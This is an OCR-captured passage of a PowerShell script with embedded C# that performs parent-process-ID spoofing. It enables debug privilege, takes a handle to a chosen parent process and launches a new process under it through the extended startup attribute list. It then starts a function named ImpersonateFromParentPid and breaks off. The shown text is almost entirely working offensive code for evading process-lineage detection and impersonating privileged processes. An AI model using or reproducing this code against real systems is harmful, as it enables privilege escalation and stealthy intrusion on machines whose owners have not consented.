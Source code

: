 ```powershell
        Process.EnterDebugMode();
        try
        {
            
            var lpSize = IntPtr.Zero;
            InitializeProcThreadAttributeList(IntPtr.Zero, 1, 0, ref lpSize);
            si.lpAttributeList = Marshal.AllocHGlobal(lpSize);
            InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, ref lpSize);
            var phandle = Process.GetProcessById(ppid).Handle;
            Console.WriteLine("[+] Got Handle for ppid: {0}", ppid); 
            lpValue = Marshal.AllocHGlobal(IntPtr.Size);
            Marshal.WriteIntPtr(lpValue, phandle);
            
            UpdateProcThreadAttribute(
                si.lpAttributeList,
                0,
                (IntPtr)PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
                lpValue,
                (IntPtr)IntPtr.Size,
                IntPtr.Zero,
                IntPtr.Zero);
            
            Console.WriteLine("[+] Updated proc attribute list"); 
            var pattr = new SECURITY_ATTRIBUTES();
            var tattr = new SECURITY_ATTRIBUTES();
            pattr.nLength = Marshal.SizeOf(pattr);
            tattr.nLength = Marshal.SizeOf(tattr);
            Console.Write("[+] Starting " + cmdargs  + "...");
			var b= CreateProcess(command, cmdargs, ref pattr, ref tattr, false,EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, IntPtr.Zero, null, ref si, out pi);
			Console.WriteLine(b+ " - pid: " + pi.dwProcessId+ " - Last error: "  +GetLastError() );
			
        }
        finally
        {
            
            if (si.lpAttributeList != IntPtr.Zero)
            {
                DeleteProcThreadAttributeList(si.lpAttributeList);
                Marshal.FreeHGlobal(si.lpAttributeList);
            }
            Marshal.FreeHGlobal(lpValue);
            
            if (pi.hProcess != IntPtr.Zero)
            {
                CloseHandle(pi.hProcess);
            }
            if (pi.hThread != IntPtr.Zero)
            {
                CloseHandle(pi.hThread);
            }
        }
    }

}
"@

function ImpersonateFromParentPid
{
    
Param 
	(
	     [Parameter(Mandatory=$true, Position=0)]
```